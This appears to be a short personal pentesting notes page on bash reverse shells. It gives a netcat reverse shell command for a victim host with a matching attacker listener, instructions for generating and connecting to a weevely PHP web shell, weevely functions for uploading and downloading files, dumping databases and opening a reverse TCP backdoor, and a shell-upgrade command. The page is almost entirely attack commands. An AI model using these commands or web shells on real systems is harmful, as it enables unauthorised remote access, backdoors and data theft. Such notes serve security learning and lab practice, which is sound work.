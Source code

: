```yaml
---
layout: post
title: 'Notes | Bash'
permalink: /notes/system/bash/
---
```


# Reverse Shell
If we can execute code in the victim:
{% highlight bash %}
... nc -e /bin/sh <ip> <port>
{% endhighlight %}

While in the attacker:
{% highlight bash %}
> nc -lvnp <port>
{% endhighlight %}

## weevely
To generate a shell:
{% highlight bash %}
> weevely generate [password] /home/kali/shell.php
> weevely http://ip/shell.php [password]
{% endhighlight %}

We can use **:help** inside the weevely shell to get some functions. We can use **-h** in the weevely function to access more options.
Sometimes we wouldn't be able to execute commands, weevely can help us:
{% highlight bash %}
> :shell_sh -v [option] [command]
{% endhighlight %}

Some other options are:
- **:file_download [remotepath] [localpath]**: download files
- **:file_upload [localpath] [remotepath]**: upload files
- **:file_read [localpath]**: read a file
- **:sql_console**
- **:sql_dump -host [ip] -lpath [localpath].txt [user] [password]**: dump a db into a file (if the db doesn't have a password we should use **''** instead).
- **:backdoor_reversetcp [lhost] [lport]**: create a reverse shell (we need to add a **;** after each command).
##### If any option doesn't work we can use **-vector [option]** to change the attack.

---

# After a reverse shell...
We can get a interactive shell with the following command:
{% highlight bash %}
> script /dev/null -c bash
{% endhighlight %}

